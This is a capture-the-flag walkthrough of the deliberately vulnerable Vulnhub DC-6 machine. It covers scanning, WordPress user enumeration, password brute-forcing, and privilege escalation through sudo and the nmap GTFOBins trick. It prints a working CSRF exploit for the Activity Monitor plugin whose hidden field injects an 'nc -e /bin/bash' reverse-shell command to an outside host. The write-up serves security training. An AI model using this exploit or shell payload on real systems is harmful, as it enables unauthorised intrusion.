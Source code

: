 ```yaml
---
layout: PostSimple
date: 2019-11-21
title:     "Vulnhub - DC 6"
tags: ['easy','wordpress','sudo']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/1.png)[br/](br/)
Today, We are going to pwn DC 6 by DCAU7 from Vulnhub


## Description

>DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
This isn't an overly difficult challenge so should be great for beginners.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer,instead, I'll give you an idea about how  to move forward.

Download Link:[https://www.vulnhub.com/entry/dc-6,315/](https://www.vulnhub.com/entry/dc-6,315/)


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:45:90:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/28 17:29:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
===============================================================
2019/11/28 17:29:11 Finished
===============================================================
```
Nothing Interesting

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/1.png)[br/](br/)
Since it is a wordpress site , Lets run ``Wpscan`` to enumerate any user or find any vulnerable plugins.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/2.png)

We found 5 users 
> admin,jens,graham,mark,sarah
Lets start bruteforcing them.

But the creator give us a hint 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/3.png)

Now we can bruteforce easily![br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/4.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/5.png)

We got password for mark ``helpdesk01``

## Getting Shell

After Logged in
One thing i observerd is Activity monitor. It looks like a Plugin so it might have an exploit.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/6.png)

>https://www.exploit-db.com/exploits/45274

Yeah Found it!!

First things first, I decided to check the exploit and configure it (if required).

I changed some 
```
1. http://localhost:8000 to http://wordy
2. Removed -lnvp I want to listen on my machine.
```

```
[html](html)
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  [body](body)
  [script](script)history.pushState('', '', '/')[/script](/script)
    [form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data"](form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data")
      [input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" /](input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" /)
      [input type="hidden" name="lookup" value="Lookup" /](input type="hidden" name="lookup" value="Lookup" /)
      [input type="submit" value="Submit request" /](input type="submit" value="Submit request" /)
    [/form](/form)
  [/body](/body)
[/html](/html)
```

Saved it and Open that ``.html`` and listening on my machine.
We got the shell


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/7.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/8.png)

Found ``graham`` password on mark's directory

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/9.png)

Logged in as ``graham``

## Privilege Escalation

While enumerating i found a ``backup.sh`` on ``jens`` directory.

But i cant execute it.
I checked ``sudo -l`` on ``graham``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/10.png)

This means we can run with sudo rights, we also have write permission on that file.
So I replaced with giving us shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/11.png)

And Run the script
We became ``jens`` now and run ``sudo -l``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/12.png)

It looks like we can run ``nmap`` with sudo rights.

I searched on ``GTFObins``

> [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

```
echo 'os.execute("/bin/sh")' > $TF

nmap --script=$TF
```

We created our nmap script and make it run to give us root.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/13.png)

We got the ``Flag`` and Root !!
